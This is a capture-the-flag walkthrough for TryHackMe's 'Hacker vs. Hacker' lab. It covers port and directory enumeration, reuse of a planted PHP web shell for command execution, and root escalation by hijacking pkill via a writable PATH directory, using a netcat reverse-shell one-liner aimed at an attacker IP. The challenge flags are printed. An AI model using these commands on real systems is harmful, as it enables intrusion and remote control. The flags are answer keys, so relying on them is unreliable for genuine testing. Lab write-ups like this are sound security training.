


Hacker vs. Hacker
Platform: TryHackMe
Type: Challenge
Difficulty: Easy
Link: Hacker vs. Hacker
Description
"Someone has compromised this server already! Can you get in and evade their countermeasures?
The server of this recruitment company appears to have been hacked, and the hacker has defeated all attempts by the admins to fix the machine. They can't shut it down (they'd lose SEO!) so maybe you can help?"
Enumeration
Port Scanning
ports=$(nmap -p- --min-rate=1000 TARGET_IP_ADDRESS | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -A -T4 TARGET_IP_ADDRESS
Host is up (0.019s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 9f:a6:01:53:92:3a:1d:ba:d7:18:18:5c:0d:8e:92:2c (RSA)
| 256 4b:60:dc:fb:92:a8:6f:fc:74:53:64:c1:8c:bd:de:7c (ECDSA)
|_ 256 83:d4:9c:d0:90:36:ce:83:f7:c7:53:30:28:df:c3:d5 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: RecruitSec: Industry Leading Infosec Recruitment
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X (93%), Adtran embedded (92%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/h:adtran:424rg
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 5.4 - 5.15 (96%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Adtran 424RG FTTH gateway (92%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
HTTP Enumeration (80)
ffuf -u http://TARGET_IP_ADDRESS/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c
- No
robots.txt or sitemap files-
ffuf reveals browsable images, css, and dist directory without interesting contents- Web site contains ability to upload a CV;
ffuf reveals /cvs directory (directory listing disabled), likely with upload.php- Source code reveals concerns about unrestricted file upload in CV feature
Vulnerability enumeration
searchsploit OpenSSH 8.2p1 # No results
searchsploit httpd 2.4.41 # Only result: DoS
Initial Foothold
Action(s)
 Attempt to upload legitimate PDF file using upload functionality
Attempt to upload legitimate PDF file using upload functionality
This results in a custom message:
Examination of source code reveals upload.php does nothing but display this text - no actual upload functionality:
Hacked! If you dont want me to upload my shell, do better at filtering!
<!-- seriously, dumb stuff:
$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
if (!strpos($target_file, ".pdf")) {
echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
echo "Success! We will get back to you.";
} else {
echo "Something went wrong :|";
}
-->
- Discovered code suggests that upload functionality may have accepted any file as long as it contained
.pdf as part of the file name (not at the beginning)- Commonly used file name for reverse shells is
shell.phpAction(s)
Check for existence of /cvs/shell.pdf.phpNotes
-
/cvs/shell.pdf.php exists - reverse shells commonly configured for user interaction using cmd parameterAction(s)
Test for use of cmd parameter with discovered shell, e.g.: http://<TARGET_IP_ADDRESS>/cvs/shell.pdf.php?cmd=whoami
RCE achieved with use of cmd parameter:Action(s)
Enumerate local file system for user flag file
ls -al /home
total 12
drwxr-xr-x 3 root root 4096 May 5 2022 .
drwxr-xr-x 19 root root 4096 May 5 2022 ..
drwxr-xr-x 4 lachlan lachlan 4096 May 5 2022 lachlan
ls -al /home/lachlan
total 36
drwxr-xr-x 4 lachlan lachlan 4096 May 5 2022 .
drwxr-xr-x 3 root root 4096 May 5 2022 ..
-rw-r--r-- 1 lachlan lachlan 168 May 5 2022 .bash_history
-rw-r--r-- 1 lachlan lachlan 220 Feb 25 2020 .bash_logout
-rw-r--r-- 1 lachlan lachlan 3771 Feb 25 2020 .bashrc
drwx------ 2 lachlan lachlan 4096 May 5 2022 .cache
-rw-r--r-- 1 lachlan lachlan 807 Feb 25 2020 .profile
drwxr-xr-x 2 lachlan lachlan 4096 May 5 2022 bin
-rw-r--r-- 1 lachlan lachlan 38 May 5 2022 user.txt
cat /home/lachlan/user.txt
What is the user.txt flag?
thm{af7e46b68081d4025c5ce10851430617}
Privilege Escalation
Action(s)
Enumerate .bash_history
Reveals password has been changed and suggests another file to be enumerated (/etc/cron.d/persistence):

] Enumerate indicated fileReveals malicious killer script for terminal connections:

Connect with discovered credentials and -T switch to disable pseudo-terminalNotes
persistence file shows that PATH has a directory writable by the lachlan user placed ahead of other non-writable locationspersistence file contains a single executable file referred to by name alone (pkill) Create custom pkill executable in /home/lachlan/bin with reverse shell# In attacker machine
nc -lvnp 1234
# In SSH session to target machine
cd bin
echo 'rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <ATTACKER_IP_ADDRESS> 1234 >/tmp/f' > pkill
chmod +x pkill
# In attacker machine
$ ls -al /root
total 28
drwx------ 4 root root 4096 May 5 2022 .
drwxr-xr-x 19 root root 4096 May 5 2022 ..
lrwxrwxrwx 1 root root 9 May 5 2022 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Dec 5 2019 .bashrc
-rw-r--r-- 1 root root 161 Dec 5 2019 .profile
-rw-r--r-- 1 root root 38 May 5 2022 root.txt
drwx------ 3 root root 4096 May 5 2022 snap
drwx------ 2 root root 4096 May 5 2022 .ssh
What is the proof.txt flag?
thm{7b708e5224f666d3562647816ee2a1d4}
Date completed: 15/11/26
Date published: 15/11/26